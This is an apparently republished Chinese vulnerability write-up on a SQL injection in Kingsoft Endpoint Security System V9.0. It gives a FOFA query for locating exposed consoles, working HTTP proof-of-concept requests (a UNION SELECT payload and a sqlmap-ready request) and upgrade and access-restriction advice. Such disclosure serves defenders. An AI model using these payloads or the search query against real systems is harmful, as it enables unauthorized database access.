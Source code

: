 
# 金山终端安全系统 V9.0 SQL 注入漏洞复现

### 0x01 产品简介

     金山终端安全系统是一款为企业提供终端防护的安全产品，针对恶意软件、病毒和外部攻击提供防范措施，帮助维护企业数据和网络。

### 0x02 漏洞概述

    金山终端安全系统 V9.0 /inter/update\_software\_info\_v2.php 页面存在[sql 注入漏洞](https://so.csdn.net/so/search?q=sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了 SQL 查询语句中，导致系统出现 SQL 注入漏洞。

### 0x03 影响范围

 金山终端安全系统<V9.SP1.E1008

### 0x04 复现环境

FOFA：title=="用户登录 - 金山终端安全系统 V9.0Web 控制台"

![](assets/1698896208-cc29352e23e52fc988b800d3c8c23af2.png)

### 0x05 漏洞复现

PoC

```http
POST /inter/update_software_info_v2.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```

查询当前用户

![](assets/1698896208-5f10298fbb7a1d2c77a3afed656eb5e6.png)

延时注入

![](assets/1698896208-b463c7f3194636c602d4b9a813479e2a.png)

Sqlmap 验证 

数据包放 txt 里面

```http
POST /inter/update_software_info_v2.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=-100*&key=&pageCount=0&curPage=
```

![](assets/1698896208-3fd0e5ee810c1cd75b4acfbb95f1dce7.png)

### 0x06 修复建议 

**升级修复方案**

官方已经推出了新版本修复了漏洞。建议所有受影响的用户尽快访问官方网站，更新版本至新版本。https://www.ejinshan.net/lywz/index

**临时缓解方案**

通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。另外作为安全建议，不要将集权设备的 Web 管理控制台开放在互联网上，并且仅允许可信 IP 进行访问。
